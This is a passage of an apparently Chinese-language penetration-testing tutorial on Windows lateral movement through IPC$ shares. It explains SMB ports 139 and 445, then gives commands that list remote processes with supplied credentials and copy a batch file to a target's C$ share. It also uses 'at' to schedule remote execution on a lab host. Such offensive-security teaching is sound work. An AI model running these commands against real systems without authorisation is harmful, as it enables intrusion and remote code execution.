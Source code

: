 **\* IPC$ 的利用条件**

**1.开启了 139、445 端口。**
**SMB**（Server Message Block）网络文件共享协议在 NT/2000 中用来作文件共享，在 Win-NT 中，SMB 运行于 NBT（NetBIOS over TCP/IP）上，使用137，139（UDP），139（TCP）端口。 
SMB 可以以不同方式运行在会话层或者更低的网络层之上：
- 直接运行在 TCP 上 port **445**;
- 通过使用 NetBIOS API, 它可以运行在几种不同的 transports:
  - 基于 UDP ports 137, 138 & TCP ports 137, **139 (NetBIOS over TCP/IP)**;
  - 基于一些传统协议，例如 NBF (incorrectly referred to as NetBEUI).
SMB 的 "进程间通信" (IPC) 系统提供 命名管道s 机制，它使得程序员可以方便的实现继承认证(客户端第一次连接SMB服务获取认证信息后)。
- `139` NetBIOS File and Print Sharing 通过这个端口进入的连接试图获得 NetBIOS/SMB 服务。SMB 最初使用 139 端口在 NetBIOS 之上运行。NetBIOS 是旧的传输层，它允许 Windows 计算机在同一网络上相互通信。
- `445` 更高版本的 SMB（在 Windows 2000 之后）开始在 TCP 堆栈顶部使用 445端口。使用 TCP 允许 SMB 通过 Internet 工作。 

**2.管理员开启了默认共享。**

建立 ipc$ 后，可通过 tasklist 指定 /S /U /P 参数查看远程主机上运行的进程。

```cmd
tasklist /S 192.168.1.3 /U HACK/002 /P HACK@2020
```

![](/assets/images/move/2020-07-03-16-46-04.png)


### at & schtasks

`at` 是 Windows 自带的用于创建计划任务的命令，主要工作在 Windows Server 2008 之前版本。

```cmd
# 1.查看目标系统时间
net time \\192.168.1.3
# 2.将文件复制到目标系统中
copy calc.bat \\192.168.1.3\c$
# 3.使用 at 创建计划任务
at \\192.168.1.3 4:11PM C:\clac.bat
at \\192.168.1.3 4:41PM cmd.exe /c "ipconfig >C:/1.txt"
# 4.删除计划任务
at \\192.168.1.3 job_id /delete
```
